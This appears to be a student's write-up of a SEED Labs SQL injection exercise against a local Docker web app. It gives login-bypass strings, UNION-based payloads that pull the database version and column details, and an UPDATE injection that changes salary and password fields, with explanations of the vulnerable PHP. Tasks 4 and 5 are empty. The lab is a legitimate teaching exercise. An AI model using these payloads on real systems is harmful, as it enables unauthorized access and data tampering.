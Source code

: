 * Setup
*** cd category-web/Web_SQL_Injection/Labsetup
*** docker-compose up
*** add 10.9.0.5 with host name www.seed-server.com in /etc/hosts file in the host machine
*** Go to www.seed-server.com and if you find the login page then the setup is complete


* Task 1
** Approach 1
*** Type {{admin';#}} in the username field and anything in the password field
    In the code we can see the comparison of name with 'admin', so there must be an username with 'admin'.
*** Then all the usernames will be shown from where we can find Alice.
*** Type {{Alice;#}} in the username field and anything in the password field and viola!

** Approach 2
*** Insert {{' OR TRUE;#}} in the username field and we are in!
    This works because we are essentially nullyfying the where clause with 'OR TRUE', so the result set contains all the records.
    But in the PHP code, we can see that all the records from the sql results are pushed into the array and only the 0th index is accessed as logged in user.

    #+BEGIN_SRC php
      /* convert the select return result into array type */
      $return_arr = array();
      while($row = $result->fetch_assoc()){
        array_push($return_arr,$row);
      }

      /* convert the array type to json format and read out*/
      $json_str = json_encode($return_arr);
      $json_a = json_decode($json_str,true);
      $id = $json_a[0]['id'];
    #+END_SRC

** Screenshot
#+CAPTION: Login as Alice
[[./screenshots/assignment/task-1-login-alice.png]]


* Task 2
** Approach
*** We can get the columns of a table using the following query
      #+BEGIN_SRC sql
        select column_name from information_schema.columns where table_name = "credential";
      #+END_SRC
*** After that we can use row_number over the partition and get the column numbers 
      #+BEGIN_SRC sql
        select ans.colnum from (select column_name, row_number() over(order by column_name) as colnum from information_schema.columns where table_name = "credential")ans where column_name = "Name";
      #+END_SRC
*** Now we can use this expression combined union attack to inject the code and we will get the column number of Name from 
      Inject {{' OR FALSE UNION SELECT 1, (select ans.colnum from (select column_name, row_number() over(order by column_name) as colnum from information_schema.columns where table_name = "credential")ans where column_name = "Name"),null,null,null,null,null,null,null,null,null #}}

** Screenshot
[[./screenshots/assignment/task-2-name-column-number.png]]

* Task 3
** Union Attack
*** Insert {{' OR FALSE UNION SELECT 1,version(),null,null,null,null,null,null,null,null,null #}} in the username
    This works because we are essentially nullyfying the first SELECT using FALSE condition and
    then unioning the result of a select statement with equal number of resultants.
    In the manufactured select clause id cannot be null because the code assumes if id exists then user exists, so we put in dummy 1 as id
    and our targeted version() in place of the name field. All other values are null since their contents are unnecessary in this context.

** Screenshot
#+CAPTION: MYSQL Version
[[./screenshots/assignment/task-3-mysql-version.png]]


* Task 4

* Task 5

* Task 6
*** If we provide eid with {{1' OR TRUE}} and password with {{pass' OR TRUE}} the transferred SQL looks like below.
    #+BEGIN_SRC sql
      SELECT * FROM customers
      WHERE eid='1' OR TRUE AND
      password='pass' OR TRUE;
    #+END_SRC
    This in turn will either spit up all users or sign me as first user.
    Or we can inject other conditions instead of TRUE to get access for a specific user if we know the columns of the database.

* Task 7
*** If we set name {{Reddington', salary=1}} and we know an information like eid or other column value unique to the attacker we can update any columns we want.
    Here we are assuming that we know the employee id, then we have to pass {{1';--}} to the employee id.
    #+BEGIN_SRC sql
      UPDATE employee
      SET name='Reddington', salary=1, password='$hashed_newpwd'
      WHERE eid = '1';--and password='$hashed_oldpwd';
    #+END_SRC
